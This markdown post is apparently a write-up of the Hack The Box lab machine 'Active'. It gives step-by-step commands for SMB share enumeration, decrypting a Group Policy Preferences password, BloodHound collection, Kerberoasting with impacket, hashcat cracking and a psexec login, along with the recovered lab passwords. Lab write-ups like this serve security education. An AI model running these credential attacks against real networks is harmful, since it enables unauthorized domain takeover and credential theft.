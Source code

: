 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Taking a look at the Groups.xml file, an account `SVC_TGS` and a encrypted password `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` was found. This password is encrypted with a known key:

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be  
![msftknownkey](/boxes/htb/active/aes key.jpg)


![groups.xmlhash](/boxes/htb/active/grouphash.png)

To decrpyt the password, we use gpp-decrpyt:  

![gppdecrypt](/boxes/htb/active/gppdecrypt.png)

The decrypted hash is `GPPstillStandingStrong2k18`
Using the credentials we found we enumerate more shares
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/)

The user flag was found under `SVC_TGS\Desktop\`

Now that we have credentials, let's Bloodhound the box. We switch to a windows vm and get a command prompt with the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. Run sharphound with the following command to gather information:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
We then drag and drop the zip file created from sharphound into the user interface of Bloodhound on our Kali machine. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](image)
Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](image)
We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](image)
The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](image)
